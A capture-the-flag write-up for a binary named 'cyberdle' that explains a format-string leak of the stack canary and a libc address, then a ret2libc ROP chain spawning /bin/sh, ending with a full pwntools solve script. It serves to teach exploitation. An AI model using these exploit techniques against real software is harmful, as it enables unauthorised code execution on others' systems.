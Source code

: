 

libc starts around 0x7ff

This was a very difficult challenge. We're given a binary, an ld file and a libc file. Right off the bat this indicates that we have to do a ret2libc attack. The protections for this binary is:

```
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    RUNPATH:    b''
    Stripped:   No
```


So this is going to be a pretty convoluted multi-stage exploit. Just running the program I observe that you can send input and either overflow a buffer or leak addresses on the stack, like this:

```
0: 0 1 2 3 4 %53$p        
Not a valid word

1: Not a valid word

2: Not a valid word

3: Not a valid word

4: Not a valid word

5: Not a valid word
0x7898eb029e40 was not the correct word...

Lets play a game of cyberdle!
```

Or like this:

```
0: 0 1 2 3 4 AAAAAAAAAAAAAAA
Not a valid word

1: Not a valid word

2: Not a valid word

3: Not a valid word

4: Not a valid word

5: Not a valid word
aaaaaAAAAAAAAAA was not the correct word...
*** stack smashing detected ***: terminated
[1]    149288 IOT instruction (core dumped)  ./cyberdle
```

Which is great news. So basically now I have to leak the address of the stack canary and the address of a known function and put it together. Sounds easy enough, right?

# leaking the canary
I used a seperate fuzzing script for both the canary and the libc function. The canary can be recognized by the fact that it always stops with a 0 byte.

Strangely the canary shared 2 bytes with the base pointer, which seemed weird to me. But when I placed it in the appropriate place just below the base pointer it worker, so hey. The offset required turned out to be 19

```
pwndbg> x/gx $rbp
0x7fffffffdc82: 0xdc00000075750035

pwndbg> x/gx $rbp+6
0x7fffffffdc88: 0xc9749db6d15cdc00

canary --all
--- snip ---
00:0000│+006 0x7fffffffdc88 ◂— 0xc9749db6d15cdc00
```
- Meaning that the canary starts at +6 offset from the [[base pointer]] (i.e. they share 2 bytes)

Now that I have leaked the canary and have successfully placed it on the stack in my payload I in theory have complete control of the stack. Now on to leaking a known function in libc.


# Leaking libc
Using the same fuzzing script I found the function `__libc_start_main` with the offset 53 (as seen on the example above). This was sort of tricky. Libc usually sits around the 0x7ff range, but in this case it was around the 0x702 range.

- Now that we have a known function address the methodology is essentially:
	- Take the address of the known function and subtract the offset from the base of libc to the function.
	- Now you have the address to libc

- This is how I found the offset to the function (The first column is the offset from the base of libc):
```
$ objdump -T libc.so.6| grep __libc_start_main                                                                                                                                                                 
0000000000029dc0 g    DF .text	0000000000000148  GLIBC_2.34  __libc_start_main
0000000000029dc0 g    DF .text	0000000000000148 (GLIBC_2.2.5) __libc_start_main
```

- This is how I calculated the base of libc (still don't really know why I had to subtract 0x80):
```python
libc_start_main_offset = 0x0000000000029dc0

libc = binary.libc
libc_start_main_addr = leaked_addr
libc.address = libc_start_main_addr - libc_start_main_offset - 0x80
```

# Building the ROP chain
Now that we control the stack and know the address to libc, we just let pwntools do the rest:

```python
execve = libc.sym['execve']
binsh = next(libc.search(b'/bin/sh'))
execve_addr = p64(execve)

pop_rdi = next(libc.search(asm("pop rdi; ret")))
pop_rsi = next(libc.search(asm("pop rsi; ret")))
pop_rdx = next(libc.search(asm("pop rdx; pop r12; ret;")))
```

which build the syscall: `execve('/bin/sh', 0, 0)`.

Here is the full solvescript:
```python
from pwn import *
import logging
import sys


context.terminal = "kitty"
context.log_level = "DEBUG"
context.arch = "amd64"


def leak_address(offset, p):

    pay = b"0 1 2 3 4 "
    # pay += f"%43$p".encode() # This gives _rtld_global
    pay += f"%{offset}$p".encode()  # this is libc_start_main

    p.sendlineafter(b"0: ", flat(
        pay
    ))

    p.recvuntil(b"5: Not a valid word\n")

    x = p.recvline()
    y = x.decode()

    return int(y.split(" ")[0], 16)


p = process("./cyberdle")
binary = context.binary = ELF("./cyberdle")
rop = ROP(binary)

#p = gdb.debug("./cyberdle", gdbscript="""
#b *wordle+356
#b *main+161
#""")

leaked_addr = leak_address(53, p)  # leaked_addr: libc_start_main
leaked_canary = leak_address(19, p)

libc_start_main_offset = 0x0000000000029dc0

libc = binary.libc
libc_start_main_addr = leaked_addr
libc.address = libc_start_main_addr - libc_start_main_offset - 0x80


"""
Game inputs
"""
game_inputs = b"C C C C C "
padding = b"A" * 6  # 6 being the array size
popped_before_retp = b"B" * 8 + b"C" * 8 + b"D" * 8 + b'E' * 8 + b'F' * 8 + \
    b'G' * 8 + b'H' * 8  # everything B and H becomes popped off the stack


"""
libc stuff
"""
execve = libc.sym['execve']
binsh = next(libc.search(b'/bin/sh'))
execve_addr = p64(execve)

pop_rdi = next(libc.search(asm("pop rdi; ret")))
pop_rsi = next(libc.search(asm("pop rsi; ret")))
pop_rdx = next(libc.search(asm("pop rdx; pop r12; ret;")))

"""
sanity check
"""
print(f"Leaked canary: {hex(leaked_canary)}")
print(f"Leaked address: {hex(leaked_addr)}")
print(f"Libc base: {hex(libc.address)}")
print(f"execve: {hex(execve)}")
print(f"/bin/sh: {hex(binsh)}")

"""
ROP chain
"""
rop.raw(game_inputs)
rop.raw(padding)
rop.raw(p64(leaked_canary))
rop.raw(popped_before_retp)
rop.raw(pop_rdi)
rop.raw(p64(binsh))
rop.raw(pop_rsi)
rop.raw(0x0)
rop.raw(pop_rdx)
rop.raw(0x0)
rop.raw(0x0)
rop.raw(execve_addr)

p.sendlineafter(b"0: ", rop.chain())

p.interactive()
```